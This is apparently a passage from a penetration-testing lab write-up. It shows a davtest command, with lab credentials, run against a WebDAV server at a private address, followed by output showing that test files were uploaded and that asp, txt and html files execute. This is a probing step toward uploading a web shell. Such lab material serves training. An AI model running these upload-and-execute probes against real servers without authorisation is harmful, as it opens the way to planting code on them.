 <br />

**trying to upload and execute files with different extensions using `davtest`**

```bash
root@attackdefense:~# davtest -auth bob:password_123321 -url http://10.4.22.42/webdav/
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.4.22.42/webdav
********************************************************
NOTE	Random string for this session: 26C0J8
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.4.22.42/webdav/DavTestDir_26C0J8
********************************************************
 Sending test files
PUT	cfm		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cfm
PUT	shtml	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.shtml
PUT	cgi		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cgi
PUT	jhtml	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jhtml
PUT	pl		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.pl
PUT	asp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
PUT	jsp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jsp
PUT	txt		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
PUT	html	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
PUT	php		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.php
PUT	aspx	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.aspx
********************************************************
 Checking for test file execution
EXEC	cfm		FAIL
EXEC	shtml	FAIL
EXEC	cgi		FAIL
EXEC	jhtml	FAIL
EXEC	pl		FAIL
EXEC	asp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
EXEC	jsp		FAIL
EXEC	txt		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
EXEC	html	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
EXEC	php		FAIL
EXEC	aspx	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.4.22.42/webdav/DavTestDir_26C0J8
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cfm
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.shtml
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cgi
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jhtml
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.pl
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jsp
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.php
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.aspx
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
```
